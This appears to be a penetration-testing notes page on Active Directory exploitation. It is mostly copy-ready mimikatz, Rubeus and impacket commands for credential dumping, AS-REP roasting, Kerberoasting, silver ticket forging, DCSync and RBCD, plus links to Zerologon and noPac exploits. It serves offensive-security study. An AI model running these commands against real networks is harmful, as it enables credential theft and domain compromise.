




# ⚔️ AD Exploitation

## Basic Kerberos Authentication



## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## AS-REP Roasting

Attack that exploits accounts with **Do not require Kerberos preauthentication** enabled to obtain and crack TGTs offline, revealing the user's NTLM hash.



!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers <domain>/ -dc-ip <ip> -request -no-pass -usersfile <valid_users>
kerbrute userenum -d <domain> --dc <ip> <valid_users>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

Attack that targets service accounts by requesting service tickets for their SPNs, to then crack them to get the service account's password.



!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /simple
```

## TargetedKerberoast

This tool tries to set SPNs on users without one abusing write permission (like **GenericWrite**) on the `servicePrincipalName` attribute.

> <https://github.com/ShutdownRepo/targetedKerberoast>

```shell
targetkerberoast.py -d <domain> -u <user> -p <pass> --request-user <target_user>
```

## Silver Ticket

Is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to gain unauthorized access to a specific service, bypassing the need to request a ticket from the Key Distribution Center (KDC) after initial authentication.



Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

**Windows**

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# target SPN
setspn -L <account_name>

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>
```

**Linux**

```shell
# SPN hash
echo -n 'password' | iconv -t utf16le | openssl dgst -md4

# domain SID
impacket-getPac <domain>/<user>:<pass> -targetUser Administrator

# target SPN (shows up after GetUserSPNs)

# forge the ticket
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# show saved tickets
klist

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

Is an attack that allows an attacker with sufficient privileges to request password hashes and other sensitive information directly from a domain controller, effectively mimicking the behavior of a legitimate domain controller replicating data.

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## RBCD

A **Resource-Based Constrained Delegation** allows an attacker with write access to a computer object's delegation attribute to impersonate any user on that computer, enabling privilege escalation or lateral movement.

> <https://github.com/tothi/rbcd-attack>

```shell
# Create a new computer
impacket-addcomputer <domain>/<user> -computer-name 'evilcomputer$' -computer-pass 'ev1lP@sS' -dc-ip <ip> -hashes :<hash>

# Add the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer
rbcd.py -f EVILCOMPUTER -t <computer> -dc-ip <ip> <domain>\\<user> -hashes :<hash>

# Fetch a CIFS Service Ticket on behalf of the targetted domain user admin and stores it in the file admin.ccache
impacket-getST -spn cifs/<computer>.<domain> -impersonate administrator -dc-ip <ip> <domain>/EVILCOMPUTER$:ev1lP@sS
```

Export the ticket and access the computer as administrator

```shell
export KRB5CCNAME=administrator@cifs_<computer>.<domain>@<DOMAIN>.ccache
                                                                                                  
impacket-psexec -k <computer>.<domain>
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
